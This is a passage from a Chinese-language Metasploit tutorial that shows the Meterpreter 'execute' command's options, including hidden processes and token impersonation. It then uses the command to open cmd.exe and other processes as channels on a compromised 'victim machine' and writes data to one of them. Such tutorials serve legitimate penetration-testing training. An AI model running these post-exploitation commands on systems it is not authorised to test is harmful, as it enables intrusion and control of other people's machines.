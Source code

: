 ```
meterpreter > execute -h
Usage: execute -f file [options]
Executes a command on the remote machine.
OPTIONS:
-H Create the process hidden from view.
-a <opt> The arguments to pass to the command.
-c Channelized I/O (required for interaction).
-d <opt> The 'dummy' executable to launch when using -m.
-f <opt> The executable command to run.
-h Help menu.
-i Interact with the process after creating it.
-k Execute process on the meterpreters current desktop
-m Execute from memory.
-s <opt> Execute process in a given session as the session user
-t Execute process with currently impersonated thread token 
```

您可以看到`execute`命令提供给我们的各种参数。让我们使用其中一些参数来设置多个频道。

## 如何做...

要开始创建频道，我们将使用`execute`命令的`-f`运算符：

```
meterpreter > execute -f notepad.exe -c
Process 5708 created.
Channel 1 created. 
```

注意不同参数的使用。`-f`参数用于设置可执行命令，`-c`运算符用于设置通道化 I/O。现在我们可以再次运行 execute 命令，启动另一个频道，而不终止当前频道：

```
meterpreter > execute -f cmd.exe -c
Process 4472 created.
Channel 2 created.
meterpreter > execute -f calc.exe -c
Process 6000 created.
Channel 3 created. 
```

现在我们在受害者机器上同时运行了三个不同的频道。要列出可用的频道，我们可以使用`channel -l`命令。如果我们想要发送一些数据或在频道上写入一些内容，我们可以使用`write`命令，后面跟着我们想要写入的频道 ID。让我们继续在我们的一个活动频道中写入一条消息：

```
meterpreter > write 5
Enter data followed by a '.' on an empty line:
Metasploit!!
.
[*] Wrote 13 bytes to channel 5. 
```

执行`write`命令以及频道 ID，提示我们输入数据，然后输入一个句号。我们成功地在频道上写入了`Metasploit!!`。为了读取任何频道的数据，我们可以使用`read`命令，后面跟着频道 ID。

此外，如果我们想要与任何频道交互，我们可以使用`interact`命令，后面跟着频道 ID：
